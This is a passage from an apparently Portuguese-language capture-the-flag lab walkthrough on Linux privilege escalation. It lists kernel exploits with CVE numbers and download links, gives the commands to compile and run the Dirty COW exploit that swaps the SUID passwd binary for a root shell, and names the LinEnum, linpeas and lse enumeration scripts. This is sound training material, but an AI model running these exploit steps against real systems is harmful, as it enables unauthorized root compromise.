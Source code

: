 ```shell
  [9] pktcdvd
      CVE-2010-3437
      Source: http://www.exploit-db.com/exploits/15150
  [10] ptrace_kmod2
      Alt: ia32syscall,robert_you_suck       CVE-2010-3301
      Source: http://www.exploit-db.com/exploits/15023
  [11] rawmodePTY
      CVE-2014-0196
      Source: http://packetstormsecurity.com/files/download/126603/cve-2014-0196-md.c
  [12] rds
      CVE-2010-3904
      Source: http://www.exploit-db.com/exploits/15285
  [13] reiserfs
      CVE-2010-1146
      Source: http://www.exploit-db.com/exploits/12130
  [14] video4linux
      CVE-2010-3081
      Source: http://www.exploit-db.com/exploits/15024
```

A popular exploração do kernel Linux "***Dirty COW***" foi listada. O código de exploração para ***Dirty COW*** pode ser encontrado em /home/user/tools/kernel-exploits/dirtycow/c0w.c. Ele substitui o arquivo SUID /usr/bin/passwd por um que gera um shell (um backup de /usr/bin/passwd é feito em /tmp/bak).

Compile o código e execute-o (observe que pode levar vários minutos para ser concluído):

```shell
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
```

Assim que a exploração for concluída, basta executar ***/usr/bin/passwd*** para obter um shell de root.

### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 21 - Privilege Escalation Scripts 

Várias ferramentas foram escritas para ajudar a encontrar possíveis escalações de privilégios no Linux. Três dessas ferramentas foram incluídas na VM Debian alvo no seguinte diretório: ***/home/user/tools/privesc-scripts***

```shell
user@debian:~$ ls /home/user/tools/privesc-scripts
LinEnum.sh  linpeas.sh  lse.sh
```

### Questões:

- a. ***Experiment with all three tools, running them with different options. Do all of them identify the techniques used in this room?*** *Não há necessidade de resposta*